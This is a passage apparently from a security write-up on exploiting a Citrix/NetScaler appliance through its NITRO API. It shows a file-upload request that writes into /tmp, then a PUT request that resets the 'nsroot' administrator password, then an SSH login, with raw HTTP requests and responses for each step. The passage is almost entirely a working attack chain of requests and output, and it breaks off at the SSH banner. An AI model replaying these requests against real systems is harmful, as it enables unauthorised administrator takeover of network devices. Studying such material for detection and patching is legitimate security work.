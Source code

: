     object={"uploadtext":{"filedir":"/tmp/","filedata":"123456","filename":"test123456789.txt"}}

> response

    HTTP/1.1 200 OK
    Date: Sun, 12 Jul 2020 06:15:05 GMT
    Server: Apache
    X-Frame-Options: SAMEORIGIN
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    X-XSS-Protection: 1; mode=block
    Content-Length: 34
    Content-Type: application/json; charset=utf-8

    {"errorcode":"0","message":"Done"}

### 0x08 ChangePassword && SSH

> request

    PUT /nitro/v1/config/systemuser HTTP/1.1
    Host: www.0-sec.org:9080
    Content-Length: 83
    Cache-Control: max-age=0
    Accept: application/json
    rand_key: 845810655.1594556994263502
    NITRO_WEB_APPLICATION: true
    If-Modified-Since: Thu, 01 Jan 1970 05:30:00 GMT
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
    DNT: 1
    Content-Type: application/json
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
    Cookie: is_cisco_platform=-1; rdx_pagination_size=25%20Per%20Page; SESSID=6c5c31300c22b200f0273e7a13be47cb; startupapp=neo
    Connection: close

    {"params":{"warning":"YES"},"systemuser":{"username":"nsroot","password":"boiboi"}}

> response

    HTTP/1.1 200 OK
    Date: Sun, 12 Jul 2020 12:37:56 GMT
    Server: Apache/2.4.34 (Unix)
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
    Pragma: no-cache
    Content-Length: 57
    Connection: close
    Content-Type: application/json; charset=utf-8

    { "errorcode": 0, "message": "Done", "severity": "NONE" }
    SSH
    ssh nsroot@www.0-sec.org
    ###############################################################################
    #                                                                             #
    #        WARNING: Access to this system is for authorized users only          #
    #         Disconnect IMMEDIATELY if you are not an authorized user!           #